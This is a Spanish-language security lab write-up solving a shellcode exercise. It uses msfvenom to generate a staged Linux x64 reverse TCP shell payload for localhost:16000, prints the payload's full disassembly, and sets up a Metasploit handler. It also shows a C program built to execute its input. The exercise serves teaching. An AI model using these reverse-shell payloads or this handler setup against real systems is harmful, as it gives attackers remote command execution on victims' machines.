






# Shellcode-02

**Objetivo**: Lograr, sin modificar el código fuente ni el binario, que el siguiente programa se conecte a localhost:16000 y reciba y procese comandos como si fuese una terminal remota. Se recomienda utilizar las herramientas de la suite de Metasploit.

```c
// shellcode-02.c

#include <sys/mman.h>
#include <stdint.h>
#include <unistd.h>

int main(int argc, char **argv) {
  uint8_t buffer[256];
    
  // Leemos hasta 256 bytes de la entrada estándar.
  read(STDIN_FILENO, buffer, 256);
    
  // Haremos ejecutable al buffer usando mprotect.
  // Primero obtenemos el tamaño de página para alinear la dirección del buffer.
  long psize = sysconf(_SC_PAGESIZE);
    
  // Hacemos al buffer ejecutable.
  mprotect((void*)((uint64_t)&buffer & ~(psize-1)), 256, 7);
    
  // Ejecutamos el buffer.
  ((void (*)(void))&buffer)();
}
```


## Solución

El código es el mismo de [shellcode-01](../shellcode-01). La idea entonces es proveer un shellcode que realice la conexión y que provea la shell. Si bien programar dicho shellcode podría resultar no trivial, podemos resolver el problema fácilmente utilizando **msfvenom**, una herramienta de la suite de Metasploit. Dicha utilidad nos permite exportar shellcode paramétrico en distintos formatos.

El primer paso para utilizar msfvenom es entonces instalar el framework Metasploit (versión community). Para instalarlo se recomienda seguir las instrucciones en el [repositorio oficial](https://github.com/rapid7/metasploit-framework). Suponiendo que el framework ya ha sido instalado, procedemos como se indica a continuación.


**1. Listamos los payloads disponibles para Linux x64**

El payload es la parte del exploit que concreta las acciones que el atacante quiere lograr ejecutar en el sistema objetivo. Se podría decir que el objetivo final del exploit es ejecutar el payload. En el modelo de Metasploit, los payloads se tratan en forma modular; es decir, los exploits de Metasploit suelen estar diseñados para funcionar con varios payloads diferentes. Podemos listar algunos de los payloads disponibles mediante el siguiente comando:

```bash
msfvenom --list payloads | grep linux/x64
```



El que utilizaremos concretamente es `linux/x64/shell/reverse_tcp`. Al ejecutarse el payload, el proceso objetivo se conectará a una dirección que nosotros indiquemos (definiendo los parámetros del payload) y proveerá una shell (i.e. una línea de comandos) a través del canal.


**2. Listamos las opciones de configuración del payload seleccionado**

```bash
msfvenom -p linux/x64/shell/reverse_tcp --list-options
```



Observamos que debemos definir obligatoriamente los parámetros LHOST y LPORT. El primero indica la dirección a la cuál deberá conectarse el sistema objetivo cuando se ejecute el payload. El segundo indica el puerto. El primero por defecto está vacío, y el segundo tiene valor 4444. Los valores que debemos definir nosotros son, respectivamente, localhost y 16000.


**3. Exportamos el payload**

```bash
msfvenom -p linux/x64/shell/reverse_tcp LHOST=localhost LPORT=16000 -f raw
```



En este caso estamos exportando los datos binarios del payload. Si pensamos integrar el payload en algún script podemos exportarlo en alguno de los formatos disponibles. Para listarlos usamos

```bash
msfvenom --list formats
```

Por ejemplo, si planeamos integrar el shellcode a un script en Ruby, podemos escribir

```bash
msfvenom -p linux/x64/shell/reverse_tcp LHOST=localhost LPORT=16000 -f ruby
```




**4. Utilizamos el shellcode**

Contamos ahora con un archivo shellcode.bin que contiene nuestro payload. Si nos resulta relevante, podemos analizar el shellcode en assembly utilizando objdump:

```bash
objdump -b binary -M intel -D -m i386:x86-64 shellcode.bin
```

```
   0:	48 31 ff             	xor    rdi,rdi
   3:	6a 09                	push   0x9
   5:	58                   	pop    rax
   6:	99                   	cdq    
   7:	b6 10                	mov    dh,0x10
   9:	48 89 d6             	mov    rsi,rdx
   c:	4d 31 c9             	xor    r9,r9
   f:	6a 22                	push   0x22
  11:	41 5a                	pop    r10
  13:	b2 07                	mov    dl,0x7
  15:	0f 05                	syscall 
  17:	48 85 c0             	test   rax,rax
  1a:	78 52                	js     0x6e
  1c:	6a 0a                	push   0xa
  1e:	41 59                	pop    r9
  20:	56                   	push   rsi
  21:	50                   	push   rax
  22:	6a 29                	push   0x29
  24:	58                   	pop    rax
  25:	99                   	cdq    
  26:	6a 02                	push   0x2
  28:	5f                   	pop    rdi
  29:	6a 01                	push   0x1
  2b:	5e                   	pop    rsi
  2c:	0f 05                	syscall 
  2e:	48 85 c0             	test   rax,rax
  31:	78 3b                	js     0x6e
  33:	48 97                	xchg   rdi,rax
  35:	48 b9 02 00 3e 80 7f 	movabs rcx,0x100007f803e0002
  3c:	00 00 01 
  3f:	51                   	push   rcx
  40:	48 89 e6             	mov    rsi,rsp
  43:	6a 10                	push   0x10
  45:	5a                   	pop    rdx
  46:	6a 2a                	push   0x2a
  48:	58                   	pop    rax
  49:	0f 05                	syscall 
  4b:	59                   	pop    rcx
  4c:	48 85 c0             	test   rax,rax
  4f:	79 25                	jns    0x76
  51:	49 ff c9             	dec    r9
  54:	74 18                	je     0x6e
  56:	57                   	push   rdi
  57:	6a 23                	push   0x23
  59:	58                   	pop    rax
  5a:	6a 00                	push   0x0
  5c:	6a 05                	push   0x5
  5e:	48 89 e7             	mov    rdi,rsp
  61:	48 31 f6             	xor    rsi,rsi
  64:	0f 05                	syscall 
  66:	59                   	pop    rcx
  67:	59                   	pop    rcx
  68:	5f                   	pop    rdi
  69:	48 85 c0             	test   rax,rax
  6c:	79 c7                	jns    0x35
  6e:	6a 3c                	push   0x3c
  70:	58                   	pop    rax
  71:	6a 01                	push   0x1
  73:	5f                   	pop    rdi
  74:	0f 05                	syscall 
  76:	5e                   	pop    rsi
  77:	5a                   	pop    rdx
  78:	0f 05                	syscall 
  7a:	48 85 c0             	test   rax,rax
  7d:	78 ef                	js     0x6e
  7f:	ff e6                	jmp    rsi
```


En el ejercicio shellcode-01 lo que habíamos hecho era simplemente pasar el shellcode por entrada estándar para lograr la ejecución del mismo. En este caso, sin embargo, ésto no será suficiente. Resulta que el payload que seleccionamos (`linux/x64/shell/reverse_tcp`) es un payload en etapas. La primera etapa de ejecución (el código que exportamos) lo que hace es establecer una conexión a localhost:16000 y, en vez de ejecutar pasos adicionales (e.g. devolver una shell), se queda esperando por código que le indica cómo continuar (la etapa 2).

Lo que debemos preparar entonces es un handler que esperará la conexión a localhost:16000 y, cuando la reciba, enviará por el socket la etapa 2 del payload. Por supuesto, considerando que se trata de un payload de Metasploit, sería razonable que el framework sea capaz de encargarse de todo el asunto. Efectivamente, podemos usar un handler, como se muestra a continuación.

Primero debemos abrir msfconsole en una terminal:

```
msfconsole
```

Luego ejecutamos los siguientes comandos:

```
use exploit/multi/handler
set payload linux/x64/shell/reverse_tcp
set LHOST localhost
set LPORT 16000
```

Escribimos entonces

```
exploit
```

y tendremos nuestro listener en localhost:16000 esperando por la conexión de la etapa 1, listo para enviar la etapa 2 cuando se establezca la conexión.




Ahora sí, si ejecutamos

```bash
gcc shellcode-02.c -o shellcode-02 && ./shellcode-02 < shellcode.bin
```

Observaremos que podemos escribir comandos en la terminal de msfconsole:



Con esto logramos obtener efectivamente una shell remota. Si un atacante lograra de alguna forma inyectar shellcode en un sistema ajeno, podría fácilmente obtener una shell que le permitiría ejecutar comandos como si fuese un usuario local.


## Lecturas adicionales

[1] Rapid7, *How to use msfvenom*.<br/>https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom

[2] Offensive Security, *Metasploit Unleashed*.<br/>https://www.offensive-security.com/metasploit-unleashed/
